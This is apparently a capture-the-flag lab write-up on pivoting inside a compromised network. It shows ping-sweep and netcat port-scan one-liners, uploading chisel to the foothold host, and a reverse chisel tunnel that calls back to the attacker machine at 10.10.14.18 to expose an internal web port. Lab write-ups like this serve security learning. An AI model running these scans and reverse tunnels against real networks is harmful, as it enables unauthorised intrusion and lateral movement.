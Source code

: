 ![](https://i.imgur.com/lcWH1IP.png)

It is very likely that this open machines are **DNS + Configurator** and **Firewall** machines as I seen in the notes above, but I still continued with **Ping Sweep** to make it sure:

  

`time for i in $(seq 1 254); do (ping -c 1 192.168.122.${i} | grep "bytes from" &); done`

![](https://i.imgur.com/ZKP4fkU.png)

I found **192.168.122.4** and **192.168.122.5** as expected

### Port scanning

Before port forwarding, I would first discover open ports on discovered targets:

  

192.168.122.4 -> DNS + Configurator

192.168.122.5 -> Firewall

Normally, I can use commands such as below to perform full port scan without needing to install nmap on beachhead system:

  

`time for i in $(seq 1 65535); do (nc -zvn 192.168.122.5 ${i} 2>&1 | grep -v "Connection refused" &); done`

  

But this time I will first scan 1-100 ports to make it faster:

  

`nc -zv 192.168.122.4 1-100` -> port **80** open on **192.168.122.4**

![](https://i.imgur.com/CL6ibAi.png)

### Port Forwarding using Chisel

Now I will need to port-forward into **192.168.122.4:80** from **10.10.10.109 SSH**.

  

First uploaded **chisel** to beachhead system using Python http server and wget:

![](https://i.imgur.com/0fAnPB6.png)

Now on my local machine, I started on Chisel server listening on port 9000:

  

`chisel server -p 9000 --reverse`

![](https://i.imgur.com/4uyQZmM.png)

Now on beachhead system, I port forward 192.168.122.4's port 80 to Local Kali machine's port 9000:

  

`./chisel_linux client 10.10.14.18:9000 R:80:192.168.122.4:80`

